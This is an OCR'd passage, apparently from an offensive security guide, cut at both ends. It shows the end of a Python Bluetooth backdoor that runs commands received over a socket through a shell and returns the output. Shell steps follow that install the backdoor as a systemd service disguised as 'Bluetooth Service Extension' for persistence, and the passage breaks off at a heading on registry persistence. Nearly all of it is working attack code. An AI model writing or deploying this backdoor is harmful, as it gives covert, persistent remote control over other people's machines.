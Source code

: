                 if data.startswith('CMD:'):  
                    command \= data\[4:\]  
                    try:  
                        result \= subprocess.check\_output(  
                            command, shell=True,  
                            stderr=subprocess.STDOUT  
                        )  
                        client\_socket.send(result)  
                    except Exception as e:  
                        client\_socket.send(f"Error: {e}".encode())  
                    
                elif data \== 'PING':  
                    client\_socket.send(b'PONG')  
                    
                elif data \== 'EXIT':  
                    break  
                        
        except Exception as e:  
            print(f"Client error: {e}")  
        finally:  
            client\_socket.close()

if \_\_name\_\_ == "\_\_main\_\_":\
backdoor = BluetoothBackdoor()\
backdoor.start_server()\
EOF

    \# Step 2: Make executable and install  
    chmod \+x /tmp/bt\_backdoor.py  
        
    \# Step 3: Create systemd service for persistence  
    cat \> /tmp/bluetooth-backdoor.service \<\< 'EOF'  

\[Unit\]\
Description=Bluetooth Service Extension\
After=bluetooth.service\
Requires=bluetooth.service

\[Service\]\
Type=simple\
ExecStart=/usr/bin/python3 /opt/bluetooth-backdoor.py\
Restart=always\
RestartSec=10

\[Install\]\
WantedBy=multi-user.target\
EOF

    echo "Backdoor service created. Install with:"  
    echo "sudo cp /tmp/bt\_backdoor.py /opt/bluetooth-backdoor.py"  
    echo "sudo cp /tmp/bluetooth-backdoor.service /etc/systemd/system/"  
    echo "sudo systemctl enable bluetooth-backdoor.service"  

}

#### **Registry/Configuration Persistence**
